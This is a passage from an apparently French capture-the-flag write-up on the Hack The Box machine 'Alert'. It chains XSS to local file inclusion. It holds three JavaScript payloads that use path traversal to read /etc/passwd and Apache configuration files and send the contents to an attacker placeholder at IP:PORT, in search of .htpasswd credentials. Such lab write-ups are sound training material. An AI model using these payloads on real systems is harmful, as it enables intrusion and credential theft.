 ```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../etc/passwd")
    .then(response => response.text())
    .then(data => {
    fetch("http://IP:PORT/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

Après avoir décodé la réponse, nous constatons que le LFI fonctionne! Nous trouvons deux utilisateurs `albert` et `david`.

![XSS to LFI](/images/HTB-Alert/XSS_LFI.png)

Nous nous souvenons que `Basic Authentication` est utilisé à `http://statistics.alert.htb/`. Maintenant que nous avons un LFI fonctionnel, nous pouvons essayer de lire le fichier `.htpasswd`.

> Le fichier `.htpasswd` d'Apache stocke les noms d'utilisateurs et les mots de passe cryptés pour l'authentification HTTP.

Pour trouver son emplacement, nous allons lire le fichier de configuration d'Apache. Les chemins les plus courants sont `/etc/apache2/apache2.conf` et `/etc/apache2/sites-available/000-default.conf`.

> `apache2.conf` est le fichier de configuration principal tandis que `000-default.conf` est le fichier définissant la configuration des hôtes virtuels.

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../etc/apache2/apache2.conf")
    .then(response => response.text())
    .then(data => {
    fetch("http://IP:PORT/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```

Nous lisons le contenu de `apache2.conf` mais il ne mentionne pas `.htpasswd` de manière pertinente.

![Apache2.conf file](/images/HTB-Alert/apache2.png)

En revanche, `000-default.conf` révèle l'emplacement de `.htpasswd` qui est `/var/www/statistics.alert.htb/.htpasswd`.

```javascript
<script>
fetch("http://alert.htb/messages.php?file=../../../../../etc/apache2/sites-available/000-default.conf")
    .then(response => response.text())
    .then(data => {
    fetch("http://IP:PORT/?data=" + encodeURIComponent(data));
    })
    .catch(error => console.error("Error fetching messages:", error));
</script>
```
